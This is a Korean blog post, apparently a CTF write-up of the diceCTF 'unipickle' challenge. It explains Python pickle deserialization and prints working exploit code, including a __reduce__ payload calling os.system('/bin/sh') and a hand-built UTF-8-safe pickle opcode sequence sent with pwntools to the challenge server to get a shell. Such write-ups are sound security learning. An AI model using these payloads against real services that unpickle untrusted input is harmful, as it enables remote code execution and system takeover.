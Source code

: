```yaml
---
title: diceCTF-unipickle writeup
date: 2024-02-07 00:10:10 +0900
categories: [writeup, misc]
tags: [diceCTF]
render_with_liquid: false
---
```


[diceCTF](https://ctf.dicega.ng/challs)에 참가는 했는데 문제는 풀지 못했다..

![1](/assets/img/posts/2024-02-07-itsme.png)

Unipickle이라는 문제에 꽂혀서 하나라도 풀어 보자는 생각이었지만 결국 실패했다. 대회가 끝난 뒤 디스코드에서 긁어 모은 라이트업을 내 나름대로 정리해보고자 한다.

## unipickle.py

```python
#!/usr/local/bin/python
import pickle
pickle.loads(input("pickle: ").split()[0].encode())
```

문제에 첨부된 unipickle.py의 내용은 정말 간단하다.
우선 python의 pickle 모듈을 사용한다. 사용자의 입력 값을 문자열로써 받아 UTF-8로 인코딩해 바이트 값으로 만들고, 이걸 pickle.loads로 역직렬화시킨다.

## 풀이

pickle에는 보안 취약성이 존재하는데, __reduce__ 메소드를 직렬화시킬 코드에 사용한다면 스택에서 호출 가능한 객체를 가져와서 별다른 <b>검증 없이 실행</b>하게 된다.

이에 착안하여 내가 구상한 공격 코드는 다음과 같다.

```python
import pickle
import pwn

class vul(object):
    import os
    
    def __reduce__(self):
        return (self.os.system, ("/bin/sh",))

temp = pickle.dumps(vul())
temp = temp.decode

r = remote('mc.ax', 31773)
r.sendline(temp)
r.interactive()
```

자세히 살펴보면, reduce 메소드가 반환할 튜플에 self.os.system를, 그 매개변수로 /bin/sh 를 담았다.
해당 메소드가 담긴 객체를 pickle.dumps로 직렬화했고, 직렬화된 바이트 값을 decode로 UTF-8 인코딩해 서버의 input 함수에 전달하고자 했다.

잘 실행될 줄 알았으나...  

![2](/assets/img/posts/2024-02-07-error.png)

decode 부분에서 막혔다. 이유는 UTF-8로 인코딩이 불가능한 바이트 값을 포함하고 있었기 때문.  
서버는 입력단의 split 때문에 문자열만 처리하고 있기 때문에 이를 우회하기 위해선 UTF-8로 정상적인 디코딩이 가능한 직렬화된 바이트 값을 만들어야 한다.

필자는 이 이상 나아가지 못했지만, 이후는 디스코드에서 찾은 풀이들을 정리한 내용을 기술하겠다.

### 인코딩 가능한 바이트 시퀀스 만들기

직렬화된 바이트 값의 구조를 보기 위해 'pickletools' 모듈을 사용할 수 있다. 내가 만든 코드의 바이트 값을 상세하게 확인하기 위해 아래의 코드를 실행시켰다.

```python
from pickle import *
from pwn import *
import pickletools

class vul(object):
    import os
    
    def __reduce__(self):
        return (self.os.system, ("/bin/sh",))

p = pickle.dumps(vul())
pickletools.dis(p)
print(p)
```

![3](/assets/img/posts/2024-02-07-howcan.png)

먼저 주의해야 할 점은 이 구조는 운영체제마다 조금씩 다르다는 것이다. 특히 윈도우에선 os.system을 nt.system으로 받고 리눅스에선 posix.system으로 받는다.

바이트 시퀀스에서 proto(\x80), frame(\x95), memoize(\x94)같은 명령어들은 utf-8로 인코딩이 불가능하다.  
따라서 이들을 포함하지 않고 우리가 원하는 기능을 수행하는 직렬화 바이트 시퀀스를 만들어야 한다.

아래는 인코딩이 가능한 바이트를 만들고, 그것을 목표 셸에 주입하는 코드이다.

```python
from pickle import *
from pwn import *

p = SHORT_BINSTRING + b'\x05posix'
p += SHORT_BINSTRING + b'\x06system'
p += BINPUT + b'\xc2' + STACK_GLOBAL
p += SHORT_BINSTRING + b'\x02sh'
p += BINPUT + b'\xc3' + TUPLE1
p += REDUCE
p += STOP

r = remote('mc.ax', 31773)
r.sendline(p)
r.interactive()
```

p의 값을 pickletools를 통해 자세히 살펴보자.
```shell
0: U    SHORT_BINSTRING 'posix'
7: U    SHORT_BINSTRING 'system'
15: q    BINPUT     194
17: \x93 STACK_GLOBAL
18: U    SHORT_BINSTRING 'sh'
22: q    BINPUT     195
24: \x85 TUPLE1
25: R    REDUCE
26: .    STOP
```

- U (SHORT_BINSTRING): 짧은 이진 문자열의 표시를 알림. 이 명령어 다음에는 문자열의 길이와 문자열 데이터가 오게 됨. 'posix'와 'system'이 이 방식으로 저장되었음.

- q (BINPUT): 객체를 메모 테이블에 저장하고, 이후 참조를 위한 인덱스 번호를 할당. 여기서는 194와 195가 그 인덱스로 사용됨.

- \x93 (STACK_GLOBAL): 스택의 최상위 두 항목을 사용하여 모듈과 이름을 찾아 그에 해당하는 객체를 스택에 적재합니다. 이 경우, 'posix' 모듈의 'system' 함수를 찾는 데 사용.

- \x85 (TUPLE1): 스택의 최상위 항목을 사용하여 단일 항목 튜플을 생성.

- R (REDUCE): 스택의 최상위 두 항목을 사용하여 __reduce__ 연산을 수행한다. 여기서는 함수(예: system)에 인자(예: 'sh')를 적용하여 호출 가능한 객체를 생성함.

- . (STOP): 직렬화 프로세스의 종료.

위의 설명과 같이 proto(\x80), frame(\x95), memoize(\x94) 같은 명령어를 쓰지 않고 다른 명령어들을 잘 조합하여 인코딩이 가능한 값으로만 바이트 시퀀스를 제작하였다는 것을 알 수 있다.

이걸 그대로 실행시켜 보면...
![3](/assets/img/posts/2024-02-07-flag.png)

예상했던 대로 셸이 실행되고, 파일을 마음대로 탐색할 수 있다.

## 후기

문제가 짧고 파훼 방법이 명확하게 보여서 그런지 포기하지 않고 계속 도전하게 된 것 같다.  
하지만 풀이 방법을 보니 시간을 계속 줬었더라도 과연 풀 수 있었을까 싶긴 하다.  
그래도 이번 기회에 잘 사용하지 않던 pickle 모듈에 대해서 깊게 이해하게 된 것 같아 얻어가는 게 있으니 다행이라는 생각이 든다.